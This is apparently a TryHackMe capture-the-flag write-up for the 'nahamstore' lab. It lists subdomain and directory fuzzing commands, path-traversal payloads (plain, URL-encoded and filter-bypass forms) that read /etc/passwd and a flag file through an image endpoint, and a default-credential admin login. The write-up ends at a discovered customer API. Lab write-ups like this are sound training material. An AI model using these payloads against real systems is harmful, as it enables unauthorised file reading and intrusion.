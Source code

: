 *Writeup for nahamstore on TryHackMe*
First, the `/etc/hosts`
```
ip    nahamstore.thm
ip    www.nahamstore.thm
ip    something.nahamstore.thm
```
Attempt subdomain enumeration with gobuster or ffuf
```gobuster
gobuster dns -d nahamstore.thm -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt
```
```ffuf
ffuf -u http://nahamstore.thm -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt -H 'Host: FUZZ.nahamstore.thm' -fw 125
```
The obtained subdomains are:
>shop
>marketing
>stock
>!Add them to the /etc/hosts file
 nahamstore-2020
 nahamstore-2020-dev

**Start using the site map on the target option on Burp with foxy proxy to map the site**

#### Local File Inclusion
http://nahamstore.thm/product/picture/?file=cbf45788a7c3ff5c2fab3cbe740595d4.jpg
The only place where this vulnerability could be found is in the way images for the products are displayed
http://nahamstore.thm/product/picture/?file=./cbf45788a7c3ff5c2fab3cbe740595d4.jpg
http://nahamstore.thm/product/picture/?file=../../../../../../../../../../../etc/passwd
http://nahamstore.thm/product/picture/?file=%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd
http://nahamstore.thm/product/picture/?file=..././..././..././..././..././..././..././..././..././..././etc/passwd
http://nahamstore.thm/product/picture/?file=..././..././..././..././..././..././..././..././..././..././lfi/flag.txt
View the server response for this last request in burp and you've got the flag owo

Scan the most common webserver ports on the different domains
-p22,80,443,8000,8080,8443,10000
8080 appears as an open port
Enumerate files and directories in this service and on the different subdomains
```ffuf
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-large-words.txt -u http://nahamstore.thm:8000/FUZZ -t 50 -c -ac
```
Found 8080/admin/login
Brute force with intruder or hydra, username:admin password:admin

Directory and file enumeration with ffuf 
```ffuf
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-large-words.txt -u http://nahamstore-2020-dev.nahamstore.thm/FUZZ -t 50 -c -ac
```
Discover /api
Fuzz /api
```ffuf
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-large-words.txt -u http://nahamstore-2020-dev.nahamstore.thm/api/FUZZ -t 50 -c -ac
```
Discover /customers?customer_id=#